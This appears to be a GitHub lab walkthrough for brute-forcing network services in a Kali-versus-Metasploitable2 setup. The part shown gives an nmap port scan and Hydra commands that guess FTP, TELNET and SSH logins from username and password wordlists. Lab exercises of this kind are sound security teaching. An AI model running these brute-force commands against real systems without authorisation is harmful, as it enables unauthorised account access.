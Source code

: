 # 🧪 Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective

The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 📂 Lab Environment Setup

- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)

---

## 🛠️ Tools Used

- **Hydra**
- **Burp Suite** (Community or Pro)
- **Wireshark** / **tcpdump**
- **Wordlists** (e.g., `rockyou.txt`, `userlist.txt`)

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

---

## 🛠️ Commands Used

```bash
nmap -p 21,23,22,80 <target-ip> 
```
![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

# 🔐 Task 2: Brute Force Attacks

## 2.1 FTP / TELNET / SSH

Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L userlist.txt -P passlist.txt ftp://<target-ip>

# Brute force TELNET login
hydra -L userlist.txt -P passlist.txt telnet://<target-ip>

# Brute force SSH login
hydra -L userlist.txt -P passlist.txt ssh://<target-ip>
```
